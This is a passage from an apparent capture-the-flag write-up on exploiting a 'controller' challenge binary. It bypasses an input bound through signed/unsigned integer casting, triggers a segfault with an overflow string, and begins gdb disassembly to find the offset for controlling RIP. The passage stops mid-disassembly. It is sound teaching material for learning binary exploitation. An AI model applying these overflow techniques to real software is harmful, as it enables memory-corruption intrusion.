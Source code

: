 Unfortunately, we can't simply do `65338 * 1` due to the following snippet:

```c
if ((0x45 < (int)local_14) || (0x45 < (int)local_18)) {
  printstr("We cannot use these many resources at once!\n");
                  /* WARNING: Subroutine does not return */
  exit(0x69);
}
```

This means each input when casted to an integer must be less than 0x45 or 69 (nice). This can be bypassed in one of two ways

1. Do arithmetic with negative numbers e.g. `-65338 * -1` (simple, but boring)
2. Abuse the fact that unsigned integers are cast to integers for the comparison (much cooler)

Since unsigned integers are cast to integers, we can enter in near max integer values and abuse the fact the most significant bit will make the number negative when cast to an integer. For example, `4294967295 - 4294901957` where `4294901957 = 4294967295 - 65338` and `4294967295` is the max unsigned integer.

Now that we know how to get to the branch in theory, we should try it out.

```
root@f3a1d068b43d:/opt# ./controller

👾 Control Room 👾

Insert the amount of 2 different types of recources: 4294967295
4294901957
Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

> 2
-1 - -65339 = 65338
Something odd happened!
Do you want to report the problem?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Problem ingored
Segmentation fault
```

Awesome! We have a segfault. I used `pwn cyclic` & `gdb` to identify the offset to our controlled RIP register.

```
root@f3a1d068b43d:/opt# gdb -q controller
Reading symbols from controller...
(No debugging symbols found in controller)
(gdb) disass calculator
Dump of assembler code for function calculator:
   0x0000000000401066 <+0>:	push   %rbp
   0x0000000000401067 <+1>:	mov    %rsp,%rbp
   0x000000000040106a <+4>:	sub    $0x20,%rsp
   0x000000000040106e <+8>:	callq  0x400f01 <calc>
   0x0000000000401073 <+13>:	mov    %eax,-0x4(%rbp)
   0x0000000000401076 <+16>:	cmpl   $0xff3a,-0x4(%rbp)
   0x000000000040107d <+23>:	jne    0x4010f1 <calculator+139>
   0x000000000040107f <+25>:	lea    0x322(%rip),%rdi        # 0x4013a8
   0x0000000000401086 <+32>:	callq  0x400dcd <printstr>
```